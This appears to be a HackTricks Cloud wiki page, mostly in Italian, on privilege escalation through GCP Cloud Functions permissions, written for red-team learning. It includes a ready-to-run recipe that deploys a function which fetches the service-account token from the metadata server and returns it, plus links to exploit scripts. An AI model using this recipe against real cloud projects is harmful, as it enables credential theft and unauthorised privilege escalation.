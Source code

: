 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Maggiore informazione su Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaccante con questi privilegi può **creare una nuova Cloud Function con codice arbitrario (maligno) e assegnargli un Service Account**. Poi, leakare il token del Service Account dai metadati per elevare i privilegi.\
Alcuni privilegi per attivare la funzione potrebbero essere richiesti.

Gli script di exploit per questo metodo possono essere trovati [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) e [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) e il file .zip precompilato può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaccante con questi privilegi può **modificare il codice di una Function e persino modificare il service account associato** con l'obiettivo di esfiltrare il token.

{% hint style="danger" %}
Per distribuire le cloud functions avrai anche bisogno di permessi actAs sul service account di calcolo predefinito o sul service account utilizzato per costruire l'immagine.
{% endhint %}

Alcuni privilegi extra come il permesso `.call` per la versione 1 di cloudfunctions o il ruolo `role/run.invoker` per attivare la funzione potrebbero essere richiesti.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Con questo permesso puoi ottenere un **URL firmato per poter caricare un file in un bucket di funzione (ma il codice della funzione non verrà modificato, devi comunque aggiornarlo)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Non sono davvero sicuro di quanto sia utile solo questo permesso dal punto di vista di un attaccante, ma è buono da sapere.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dati a te stesso uno dei precedenti privilegi **`.update`** o **`.create`** per l'escalation.

### `cloudfunctions.functions.update`

Avere solo permessi **`cloudfunctions`**, senza **`iam.serviceAccounts.actAs`**, non ti permetterà di aggiornare la funzione QUINDI QUESTO NON È UN VALIDO PRIVESC. 

### Permessi di Scrittura sul Bucket

Potresti pensare che un attaccante con **permessi di scrittura sul bucket** dove è memorizzato il codice delle Cloud Functions sarà in grado di **modificare il codice sovrascrivendo** il `function_code.zip` e poi far eseguire alla funzione **codice arbitrario**.

{% hint style="success" %}
**Tuttavia, questo non è vero, semplicemente sovrascrivere il codice all'interno del bucket non modificherà il codice che viene eseguito.**
{% endhint %}

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

